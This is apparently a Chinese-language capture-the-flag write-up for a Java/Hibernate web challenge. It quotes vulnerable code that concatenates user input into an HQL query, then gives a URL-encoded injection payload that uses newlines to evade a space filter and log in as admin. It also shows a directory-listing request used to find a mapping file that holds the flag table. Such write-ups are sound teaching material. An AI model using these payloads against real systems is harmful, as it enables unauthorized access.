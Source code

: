 看到用了Hibernate框架，并且找到了UserServiceImpl，注意到这里过滤了空格和等号。

```java
public List <User> loginCheck(String name, String password) {
        name = name.replaceAll(" ", "");
        name = name.replaceAll("=", "");
        Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
        Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
        if (password_matcher.find()) {
            return this.userDao.loginCheck(name, password);
        }
        return null;
    }

```

和UserDaoImpl

```java
 public List < User > loginCheck(String name, String password) {
        return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");  
    }

```

这显然就可以注入了。

于是可以以管理员登录`/zhuanxvlogin?user.name=admin%27%0Aor%0A%271%27%3E%270%27%0Aor%0Aname%0Alike%0A%27admin&user.password=1`

之后注意到list这个api的功能，它可以列出目录，这样就好办了。一步步地发现目录

```
/list?pathName=/opt/tomcat/webapps/ROOT/WEB-INF/classes/
```

这里还发现了有个user.hbm.xml，尝试读取

```xml
<hibernate-mapping package="com.cuitctf.po">
    <class name="User" table="hlj_members">
        <id name="id" column="user_id">
            <generator class="identity"/>
        </id>
        <property name="name"/>
        <property name="password"/>
    </class>
    <class name="Flag" table="bc3fa8be0db46a3610db3ca0ec794c0b">
        <id name="flag" column="welcometoourctf">
            <generator class="identity"/>
        </id>
        <property name="flag"/>
    </class>
</hibernate-mapping>
```
